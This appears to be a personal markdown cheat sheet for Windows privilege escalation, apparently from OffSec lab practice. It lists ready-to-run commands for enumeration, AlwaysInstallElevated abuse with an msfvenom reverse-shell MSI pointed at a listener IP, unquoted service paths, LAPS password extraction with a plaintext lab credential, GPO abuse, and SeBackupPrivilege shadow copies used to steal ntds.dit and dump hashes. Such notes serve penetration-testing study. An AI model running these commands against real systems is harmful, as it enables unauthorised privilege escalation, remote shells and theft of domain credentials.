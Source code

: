 # WindowsPE
----------------

## Basic Checks
User  and Groups
```cmd
net user 
net user /domain
net group /domain
```

OS and Architecture
```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

Running Processes and Services
```cmd
tasklist /SVC
```

Network
```cmd
ipconfig /all
route print
```

Firewall
```cmd
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
```

Scheduled Tasks
```cmd
schtasks /query /fo LIST /v
```

Installed Applications
```cmd

```

Writeable Directories
```cmd
accesschk.exe -uws "Everyone" "C:\Program Files"
```

```cmd
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

```cmd
icacls
```

list hidden directories
```cmd
dir /a:hd
```


## AlwaysInstallElevated
https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/

```cmd
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```

```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 
```

If the output of the both reg keys are equal to "0x1" always install elevated is exploitable.

Generate a msi payload using msfvenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.166 LPORT=443 -f msi -o shell.msi
```

install the msi:
```cmd
C:> msiexec /quiet /qn /i  install.msi
```

---------------

## WSL
```cmd
where /R C:\windows bash.exe

where /R C:\windows wsl.exe
```

```Powershell
gci -r . bash.exe
gci -r . wsl.exe

Get-ChildItem -Recurse . bash.exe
```

```cmd
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.22000.1_none_d9322203d3a93255\wsl.exe whoami

C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.22000.1_none_95defc35c15b2b6b\bash.exe #will land a shell
```
--------------

## Unqouted Service Paths
https://www.hackingarticles.in/windows-privilege-escalation-unquoted-service-path/
https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths

```cmd
HKLM\SYSTEM\CurrentControlSet\Services\Servicename
```

```cmd
cmd /c wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

```cmd
sc qc FoxitCloudUpdateService
```

```cmd
shutdown.exe -r -f -t 1
```

```cmd
sc start "servicename"
```
-----------------------

## LAPS
If we find the folder LAPS in `C:\Program Files` and have the password of a domain user, we can use ldapsearch to get password of the Administrator:
```bash
ldapsearch -D fmcsorley@HUTCH.offsec -w CrabSharkJellyfish192 -o ldif-wrap=no -b 'dc=hutch,dc=offsec' -H ldap://192.168.209.122 "(ms-MCS-AdmPwd=*)" ms-Mcs-AdmPwd
```
-------------------

## GPO
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#exploit-group-policy-objects-gpo
Using StandIn to abuse GPO:
https://github.com/FuzzySecurity/StandIn#spn

```Powershell
StandIn.exe --gpo  # list GPO

StandIn.exe --gpo --filter "Default Domain Policy" --acl  # list GPO permissions

StandIn.exe --gpo --filter "Default Domain Policy" --localadmin anirudh
```

After adding the user anirudh to the local administrators group we have to update the group policy.
```Powershell
gpupdate /force
```

-----------------

## SeBackup
---------------
https://github.com/giuliano108/SeBackupPrivilege

Import the DLL using:
```
Import-Module ./SeBackupPrivilegeUtils.dll
Import-Module ./SeBackupPrivilegeCmdLets.dll
```

copy.txt for shadow copy:
```txt
set context persistent nowriters
set metadata C:\temp\metadata.cab
set verbose on
add volume c: alias mycopy
create
expose %mycopy% x:
```

```
diskshadow /s copy.txt
```

```
Copy-FileSeBackupPrivilege x:windows\ntds\ntds.dit C:\temp\ntds.dit

reg save hklm\system C:\temp\system.back
```

```bash
python3 /opt/impacket/examples/secretsdump.py -ntds ntds.dit -system system.back local
```





